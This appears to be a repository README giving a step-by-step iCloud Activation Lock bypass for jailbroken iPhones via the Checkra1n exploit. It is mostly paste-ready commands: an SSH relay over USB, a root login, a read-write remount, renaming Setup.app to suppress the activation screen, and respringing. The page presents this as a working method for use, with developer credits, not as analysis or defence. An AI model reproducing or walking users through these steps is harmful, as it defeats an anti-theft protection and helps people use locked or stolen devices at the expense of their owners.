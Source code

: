 ## FAQs:

* This method uses Checkra1n Exploit to Bypass iOS iCloud Activation Lock even after Restart / Respring and Reset, It wipes out the iCloud Account on the iPhone / iOS Software and Recaches the Old System up alive, due to this. The method also Backs Up the iOS Setup.app or renames it for Removal of the Activation Lock, You can also use another Account on the iPhone after Refresh but never update it to the Latest due to Restrictions like Serial Number locked into the iPhone.

## Commands:

Paste this into the first terminal window:

( 1 ):
* ./tcprelay.py -t 44:2222

Paste this into the second terminal window:

( 1 ):
* ssh root@localhost -p 2222

( 2 ):
* mount -o rw,union,update /

( 3 ):
* echo "" >> /.mount_rw

( 4 ):
* mv /Applications/Setup.app /Applications/Setup.app.crae

( 5 ):
* uicache --all

( 6 ):
* killall backboardd

( C ) - This method was developed by AppleTech752, AppleDemo, and Exploit3d.
